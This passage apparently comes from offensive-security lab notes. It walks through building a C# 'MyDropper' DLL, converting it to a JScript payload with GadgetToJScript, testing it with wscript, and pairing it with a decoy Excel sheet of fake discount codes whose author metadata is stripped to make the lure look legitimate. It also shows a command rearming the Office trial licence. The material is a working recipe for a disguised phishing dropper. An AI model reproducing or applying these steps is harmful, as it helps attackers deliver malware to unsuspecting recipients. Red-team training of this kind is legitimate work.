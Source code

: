 ```c#
        public uint dwProcessId;
        public uint dwThreadId;
    }
 
    public enum PROCESSINFOCLASS
    {
        ProcessBasicInformation = 0
    }
 
    public struct PROCESS_BASIC_INFORMATION
    {
        public uint ExitStatus;
        public IntPtr PebBaseAddress;
        public ulong AffinityMask;
        public int BasePriority;
        public ulong UniqueProcessId;
        public ulong InheritedFromUniqueProcessId;
    }
}

```

5. Build the project to a DLL in Release mode.
6. Serialise the DLL using G2JS.
```powershell
C:\Tools\GadgetToJScript\GadgetToJScript\bin\Release\GadgetToJScript.exe -a .\source\repos\MyDropper\bin\Release\MyDropper.dll -w js -b -o C:\Payloads\deals\deals
```

Test
```powershell
wscript C:\Payloads\deals\deals.js
```

### Decoy + Trigger + Container

 > & 'C:\Program Files\Microsoft Office\Office16\OSPPREARM.EXE'

1. Create decoy Excel spreadsheet file and save in deals directory
	1. **Remove the authors from the document**
```
id  product      discount  code
1   Prodder      56%       54473-150
2   Viva         9%        0378-5713
3   Aerified     22%       43742-0187
4   Zaam-Dox     26%       35356-687
5   Rank         41%       63323-300
6   Pannier      61%       50804-302
7   Wrapsafe     32%       67046-223
8   Voltsillam   58%       55910-721
9   Ventosanzap  4%        0485-0051
10  Otcom        54%       36987-2281
```
